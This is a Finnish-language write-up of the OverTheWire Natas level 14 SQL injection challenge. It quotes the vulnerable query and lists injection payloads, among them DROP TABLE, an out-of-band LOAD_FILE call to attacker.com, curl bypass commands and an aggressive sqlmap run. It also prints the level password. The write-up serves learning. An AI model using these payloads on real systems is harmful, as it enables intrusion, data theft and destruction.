# level 14 - START HERE

natas14 : z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

Perus selvittämistä ja tässä näyttää ainakin koodin ainakin on *username ; password* mahtaako olla koskien SQL injektiota tai tavallinen shell injektiota? 

PHP - koodikielessä ainakin (_index-source.html_) on *query* - kyselly, että hakee käyttäjännimen ja salasanansa, että jos täsmää sitten päästään eteenpäin, että pääsee hakee seuraavan levelin salasanansa, eli on **SQL injektio**.

ainakin pikaisella testauksella syötä **username:username** , **password:password** - *access denied!*






Tämä osuus ainakin kertoo kyseessä on SQL injektio ja tämä funktio:
```
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

```

Sekä mahdolliset avain sanat meitä varmaan kiinnostaa ja debbugoida on ainakin.. `GET`, `username`, `password` ja `debug` parametrit. Tärkeimistä ainakin tarkistettu F12 ja url perään laitettu `/robots.txt`, että ei apua joten alettaan käydä kiinni mm. `curl` - komennon kautta ja jne.


## Level 14 - 1 SQL injektio

SQL-injektio on hyökkäysmenetelmä, jossa käyttäjä syöttää haitallista SQL-koodia sovelluksen lomakkeisiin tai URL-parametreihin, jotka eivät ole kunnolla suojattu. SQL-injektiota voidaan kokeilla lisäämällä erityisiä merkkejä (kuten `' OR 1=1 --`) URL-parametreihin ja katsoa, kuinka palvelin reagoi.

Jos palvelin ei ole suojattu kunnolla, se voi altistua SQL-injektiolle ja paljastaa tietoja tai jopa antaa mahdollisuuden kirjautua sisään ilman oikeaa salasanaa.

Esim. yritettään päästä login sisäänsä sen **username;password** 
```
username=' OR '1'='1
password=' OR '1'='1
```

- SQL kysely; SELECT * FROM users WHERE username = 'alice' AND password = 's3cr3t';

**muita esim.** <br>
```
SELECT * FROM users WHERE username = 'alice' AND password = 's3cr3t';
SELECT * FROM users WHERE username = 'alice' OR '1'='1' AND password = 's3cr3t' OR '1'='1';
```

**Miksi juuri "alice"?** <br>
Alice on valittu mahdollisesti esimerkkinä, koska se on helppo arvata ja käyttää testissä. Jos tietoturva-asiantuntijat suunnittelevat tällaisia haasteita, he voivat käyttää yleisiä nimiä (kuten "alice", "bob", "admin"), jotta voit kokeilla niitä oletuksena.


Alice voi myös liittyä johonkin järjestelmän oletusasetuksiin, tai se voi olla oletuskäyttäjä (vaikka tämä on vähemmän todennäköistä).

Täysin mahdollista, että tässä URL:ssa on SQL-injektio-aukko, ja "alice" voi olla käyttäjätunnus, jota pyritään hyödyntämään. SQL-injektiota voidaan kokeilla lisäämällä erityisiä merkkejä (kuten `' OR 1=1 --`) URL-parametreihin ja katsoa, kuinka palvelin reagoi.

Jos palvelin ei ole suojattu kunnolla, se voi altistua SQL-injektiolle ja paljastaa tietoja tai jopa antaa mahdollisuuden kirjautua sisään ilman oikeaa salasanaa.

## SQL Injektio - Whitehat
**white hat -testaajat** (eli eettiset hakkeroijat, penetraatiotestaajat jne.) käyttävät hyvin usein juuri tuollaista SQL-injektiorakennetta testatessaan, onko verkkosovellus altis SQL-injektiolle.

**Klassinen SQL-injektio:** <br><br>
Jos lomake tai URL-parametrit välitetään suoraan SQL-kyselyyn ilman suojausta, kuten:<br>
`SELECT * FROM users WHERE username = '[syöte]' AND password = '[syöte]';`

password (syöte) siis joku satunnainen sana väliin <br>

<br>
Tällöin kyselystä tulee käytännössä: <br>

`SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '';`

<br>
Mitä tämä tekee?<br>

```
' OR 1=1 --:
' päättää alkuperäisen stringin.
OR 1=1 on aina tosi, joten se ohittaa autentikoinnin.
-- on SQL-kommenttimerkki, joka kommentoi loput rivistä pois (eli AND password = ... jää huomiotta).
```

### SQL injektio muita menetelmiä 

nykyaikainen white hat -testaus ja hyökkäystavat voivat käyttää monia eri tekniikoita riippuen sovelluksen rakenteesta, suojauksista ja tietokannasta.


1. UNION SQL Injection <br>
' UNION SELECT username, password FROM users --


2. Tautology Injection (klassikko: OR 1=1) <br>
' OR 1=1 --


3. Blind SQL Injection (Boolean-based) <br>
' AND 1=1 --   # toimii
' AND 1=2 --   # ei toimi


4. Time-based Blind SQL Injection <br>
' OR IF(1=1, SLEEP(5), 0) -- 


5. Error-based SQL Injection <br>
' ORDER BY 100 -- 


6. Stacked Queries (jos sallittu) <br>
'; DROP TABLE users; --


7. Second-order SQL Injection <br>
Tätä ei suoriteta heti, vaan tallennetaan ensin ja suoritetaan myöhemmin toisessa yhteydessä. Eli ensin rekisteröidään käyttäjänimi ja sitten 


8. Out-of-Band SQL Injection <br>
Tämä vaatii erityisiä olosuhteita, ja SQL-injektio lähettää tiedon ulos järjestelmästä, esim. DNS-kyselynä: <br>
' OR LOAD_FILE('\\\\attacker.com\\file') -- 


9. Using SQL Comments Smartly <br>
-- (yksirivinen kommentti) <br>
/* comment */ (monirivinen) <br>
%23 (URL-koodattu #, MySQL-kommentti) <br>
esim: `' OR 1=1 /*'`


✅ Miten white hat testaa eri metodit? <br>
- Kokeilee klassista: `' OR 1=1 --`
- Testaa error-muotoja ja katsoo mitä virheilmoituksia tulee <br>
- Testaa blind-injektiot jos mitään ei palaudu <br>
- Vahvistaa että kyseessä on injektio testaamalla SLEEP, ORDER BY, jne. <br>
- Käyttää automatisoituja työkaluja kuten sqlmap <br>

## Harjoitusta kohti mestariksi

Alkuum meneekin `' OR 1=1 --` - koska se on perusideana mikä lähtee harjoittelusta. Sitä näkee nopeasti, reagoi järjestelmän jollakin tavalla, että onnistuuko kirjautuminen vai tuleeko virhettä, jäätyykö pyyntö ja tms. Tämä periaatteessa toimii kuin ensimmäinen _pingi_ eli testaa onko järjestelmässä injektiota. 

Periaatteessa tämä `' OR 1=1 --` - voi toimia pienenä lunttilappuna ja pikaisella koodina.

Jos taso menee vaikeammaksi niin lomake kenttään käytä suodatusta  ' - merkkiä 

Muita vaiheita tulee mukaan:
- Blind SQLi (testataan vaikka `AND 1=1` vs. `AND 1=2` ja katsotaan käyttäytyminen)
- Time-based SQLi (esim. `SLEEP(5)`-pohjaiset injektiot)
- Automatisointi (sqlmap) kun payloadit monimutkaistuvat


## SQL injektio kali linux:issa

`curl "http://target.site/login?username=admin' OR 1=1 --&password=whatever"`

```
curl -X POST http://target.site/login \
  -d "username=admin' OR 1=1 --&password=whatever"
```

**Sqlmap** - joka antaa automaattisesti erilaisia sql injektio, et tunnistaa classic/blind/time-based ja union pohjaisia, jne.
`sqlmap -u "http://target.site/login?username=admin&password=test" --batch --risk=3 --level=5`


---

# Level 14 - 2 - virallinen testi ja harjoitus - START HERE

Tähän väliin tulee muutamia kuvia, josta on suoritettu testejä ja vasta sen jälkeen toimivista ainakin osa antoi pientä vihjettä.

**TESTI1** <br>


**TESTI2** - et lisäsin alkuun ton _sadf'_ 


**TESTI3** tässä alkoi tapahtua jotakin seuraavina, että antoi tämän tiedostonhakemiston polunsa eli **var/www/natas/natas14/index.php** ja jne.



**TESTI4** seuraava testinä joka toimii sama ideana kuin aikaisempi, mutta virheitä ja voi ollaan lähellä maalia. 



**TESTI5** <br>



**TESTI6** seuraavina testeinä aloin kokeilla iskeä sitä SQL-injektiota URL-perään, kun PHP-koodi pätkässä viittasi tämän _if_ lausekkeensa `if(array_key_exists("debug", $_GET)) {`. Perään sijoitin pari-muutama  `&&` merkin, koska ne viittaa kyseisen lomakkeen username;password formaattia.  



**TESTI7** tämä on sama idea kuin aikaisempi, mutta perässä on tämä `' OR 1=1 --` - joka on enkodaattu ja näin se sijoittuu URL-perään. Jos menisi lomakkeen kautta se ois kuin `"admin' OR 1=1 --`.

**`' OR 1=1 --`** - enkoodattuna: <br>
Tämä enkodaattu pätee myös todellisuudessaan kirjauttumisen formaattissa ja URL:issa , periaate pätee todellisuudessakin web-sovelluksissa, jos ne ovat haavoittuvia SQL-injektiolle.




**TESTI8** - tämä on sama kuin aikaisempi _TESTI7_ mutta perässä lisäsin erikoismerkin kuin `"` - ja tässä vähitelen koskien tätä SQL injektiota, että testataan lisätä username ja password kenttään menisi tällä merkillä. 



**TESTI9** ja nyt päästiin. 



